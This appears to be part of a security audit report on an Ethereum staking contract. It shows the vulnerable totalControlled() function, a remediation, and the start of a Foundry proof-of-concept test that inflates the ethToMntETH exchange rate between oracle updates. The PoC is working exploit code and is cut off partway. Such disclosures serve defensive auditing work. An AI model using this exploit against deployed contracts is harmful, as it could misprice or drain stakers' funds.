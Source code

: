 ```solidity
    function totalControlled() public view returns (uint256) {
        OracleRecord memory record = oracle.latestRecord();
        uint256 total = 0;
        total += unallocatedETH;
        total += allocatedETHForDeposits;
        /// The total ETH deposited to the beacon chain must be decreased by the deposits processed by the off-chain
        /// oracle since it will be accounted for in the currentTotalValidatorBalance from that point onwards.
        total += totalDepositedInValidators - record.cumulativeProcessedDepositAmount;
        total += record.currentTotalValidatorBalance;
        total += unstakeRequestsManager.balance();
        return total;
    }
```

## Remediation
The value of `totalControlled()` should be properly calculated during full validator withdrawal.
This can be achieved by either having the total controlled ETH be calculated from the last fully processed oracle record only or to have the Oracle also call the ReturnsAggregator record processing function upon any oracle record finalisation.

## PoC
PoC showing that `ethToMntETH` is inflated more than 50% between oracle update and `processNextOracleRecords` call.

```solidity
contract BasicTest is IntegrationTest {
    function testHack() public {
        address alice = makeAddr("alice");

        vm.startPrank(manager);
        ds.staking.grantRole(ds.staking.STAKING_ALLOWLIST_ROLE(), alice);
        vm.stopPrank();

        vm.deal(alice, 400 ether);
        vm.prank(alice);
        ds.staking.stake{value: 400 ether}();

        vm.prank(allocator);
        ds.staking.allocateETH({allocateToUnstakeRequestsManager: 0, allocateToDeposits: 400 ether});

        // create 10 validators
        Staking.ValidatorParams[] memory params = new Staking.ValidatorParams[](
            10
        );
        for (uint256 i = 0; i < 10; i++) {
            params[i] = generateValidatorParams({
                pubkey: abi.encodePacked(uint128(0), i), // 48 bytes
                signature: new bytes(96),
                withdrawalWallet: address(ds.consensusLayerReceiver),
                depositAmount: 32 ether
            });
        }
        vm.prank(initiator);
        ds.staking.initiateValidatorsWithDeposits(params);

        // 5 validators fully withdrawn + reward
        vm.deal(address(ds.consensusLayerReceiver), 160.05 ether);

        console.log("Current ethToMntETH rate is '%s'", ds.staking.ethToMntETH(1 ether));
```